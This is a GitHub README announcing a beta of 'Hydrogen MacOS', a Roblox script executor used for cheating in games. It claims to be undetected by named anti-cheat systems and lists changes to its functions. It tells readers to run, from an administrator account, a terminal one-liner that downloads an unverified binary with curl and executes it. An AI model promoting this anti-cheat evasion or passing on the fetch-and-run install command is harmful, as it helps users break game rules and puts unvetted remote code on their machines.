 
> ___


```md
Hydrogen MacOS returns!

This is an extremely early BETA, don't expect it to be perfect please 🙂 Report crashes and non-working scripts to me.

**Hydrogen MacOS currently ONLY SUPPORTS M-SERIES MACS, i.e. M1, M2, M3, M4. Please keep this in mind before trying the beta.** 

**Features**:
- Hydrogen is the **only** tool that has a native and Metal accelerated drawing library
- **Undetected** in Da Hood and Faithful AC V3 by europa
- Fast updates
- Stable execution environment
```

> ___

```md
Core changes:
- Add filtergc
- Add sethiddenproperty and gethiddenproperty (doesn’t pass sUNC because I haven’t created a BinaryString deserializer)
- Fixed setthreadidentity
- Fixed getthreadidentity
- Fixed gethui
- Added a service resolver to the index hook (i.e. on a Hydrogen thread, `game.Players` resolves to `game:GetService(“Players”)` so that a game renaming a service doesn’t effect script execution)
```

> ___

- xgladius

> ___

- sUNC: 83%
> https://sunc.rubis.app/?scrap=9QJfq5ialtm7caKh&key=HEpJSqieh3BmSGQT2iO4uOkHsTiebqRt

- UNC: 90%

> ___

> [!Note]
Your Mac account must be adminstrator.
> ___
>Your mac os version must be 10.15 or up to run Hydrogen.
> ___
> Roblox and Hydrogen must be Uninstalled. 

> ___

To install, please paste this in your terminal:
```sh
cd /tmp && curl -LJs "https://github.com/retguard/upgraded-octo-journey/raw/main/hydro-installer" -O && chmod +x ./hydro-installer && ./hydro-installer
```

> ___

> [!Note]
Please be aware that the current version of Hydrogen Mac is available in this repository. For the most up-to-date information and updates, I recommend joining the Hydrogen Discord server: https://discord.gg/gethydrogen

> ___
